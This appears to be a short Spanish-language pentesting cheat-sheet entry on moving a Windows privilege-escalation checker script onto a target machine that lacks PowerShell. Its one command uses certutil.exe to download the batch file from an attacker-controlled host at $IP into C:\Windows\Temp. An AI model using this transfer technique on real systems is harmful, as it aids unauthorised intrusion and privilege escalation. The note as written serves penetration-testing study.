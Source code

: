 ## Windowsprivchecker.bat

Utilizado para Windows sin Powershell
Pasar a la maquina 
'''certutil.exe -urlcache -split -f "http://$IP/windowsprivchecker.bat" C:\Windows\Temp\privesc.bat < recomendacion por permisos de escritura'''

